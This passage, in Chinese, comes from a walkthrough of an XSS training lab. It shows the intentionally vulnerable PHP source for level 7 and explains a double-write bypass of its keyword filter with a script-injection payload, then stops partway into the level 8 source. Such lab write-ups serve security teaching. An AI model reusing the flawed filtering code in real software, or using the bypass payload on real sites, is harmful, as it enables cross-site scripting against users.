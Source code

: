 #### 第七关

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level8.php?keyword=nice try!"; 
}
</script>
<title>欢迎来到level7</title>
</head>
<body>
<h1 align=center>欢迎来到level7</h1>
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level7.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
</body>
</html>

```

这一次接收参数并转为小写了，但是由于后续的过滤是直接替换为空，所以我们可以采用双写绕过。
```php
"><scscriptript>alert(1)</scscriptript>
```

#### 第八关

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level9.php?keyword=not bad!"; 
}
</script>
<title>欢迎来到level8</title>
</head>
<body>
<h1 align=center>欢迎来到level8</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
```